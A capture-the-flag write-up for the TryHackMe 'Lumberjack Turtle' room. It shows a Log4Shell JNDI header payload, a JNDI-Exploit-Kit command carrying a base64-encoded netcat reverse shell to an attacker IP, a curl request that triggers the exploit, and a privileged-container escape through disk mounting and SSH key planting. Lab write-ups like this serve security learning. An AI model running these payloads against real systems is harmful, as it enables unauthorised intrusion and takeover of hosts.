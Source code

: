 ##### Room Name: [Lumberjack Turtle](https://tryhackme.com/room/lumberjackturtle)
##### Difficulty: Medium
##### Room Description: No logs, no crime... so says the lumberjack.
---

## Enumeration

### Nmap
```js
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp    open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
22450/tcp filtered unknown
24740/tcp filtered unknown
25611/tcp filtered unknown
25974/tcp filtered unknown
30751/tcp filtered unknown
33989/tcp filtered unknown
36786/tcp filtered unknown
42724/tcp filtered unknown
50865/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website (Port 80)
Visiting any random non-existent page (`/test`) throws this error with 404 status code.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/error-msg.png)

Visiting `/error` gives the `status=999` in the error message with 500 status code.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/status-999.png)

Run recursive directory busting and we have `/~logs/log4j` directory.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/logs-log4j.png)

The response header `X-THM-HINT: CVE-2021-44228 against X-Api-Version` states that we have to use the `X-Api-Version` header.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/x-thm-hint.png)

### Exploitation
Try sending a request with `X-Api-Version: ${jndi:ldap://ATTACKER-IP:3333}` to the server. Also, keep a netcat listener running at port 3333. The netcat listener will listen a connection from the victim machine:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/vulnerable.png)

With this, we can confirm that the web application is indeed vulnerable.

Next, `git clone` the [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) from github. Follow the instructions on the README.md file in the github repo. Now, change directory to the JNDI-Exploit-Kit directory and run the exploit:
```bash
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "10.9.4.84:1389" -C "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC45LjQuODQgOTk5OSA+L3RtcC9m | base64 -d | bash"

```
The base64 payload is a simple reverse shell that connects back to our attacker machine at port 9999. 

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/exploit.png)

Grab the exploit URL from the output shown above and send the request. 
```bash
curl 'http://10.10.193.69/~logs/log4j' -H 'X-Api-Version: ${jndi:ldap://10.9.4.84:1389/aefzek}'
```
Make sure to keep a listener running on port 9999.

### Privilege escalation

We get a shell as root. But it is actually inside a docker container.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/got-shell.png)

The flag1 is located at `/opt/.flag1`
Running linpeas, we can see that privileged mode is enabled. It allows us to access the host filesystem from within the docker container. We simply have to mount the disk.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/linpeas.png)

Check for disks in the system with `fdisk -l`

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/fdisk.png)

The host uses the disk at `/dev/xvda1`. Create a folder at `/mnt/host` and mount the drive:
```bash
mount /dev/xvda1 /mnt/host
```

The host filesystem can be accessed from `/mnt/host`. Use `chroot /mnt/host` to change the root filesystem.
Create a SSH key pair and get a SSH session with the id_rsa file:
```bash
|07:52:33| root@81fbbf1def70:~/.ssh$ ls
total 16
drwx------ 2 root root 4096 Feb  1 07:52 .
drwx------ 4 root root 4096 Dec 13 01:25 ..
-rw------- 1 root root    0 Dec 13 01:23 authorized_keys
-rw------- 1 root root 1675 Feb  1 07:52 id_rsa
-rw-r--r-- 1 root root  399 Feb  1 07:52 id_rsa.pub
|07:52:47| root@81fbbf1def70:~/.ssh$ cat id_rsa.pub  >> authorized_keys 
```

Log in and you'll see a directory `/root/...`. The root flag is in this folder.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/root-flag.png)

Happy hacking !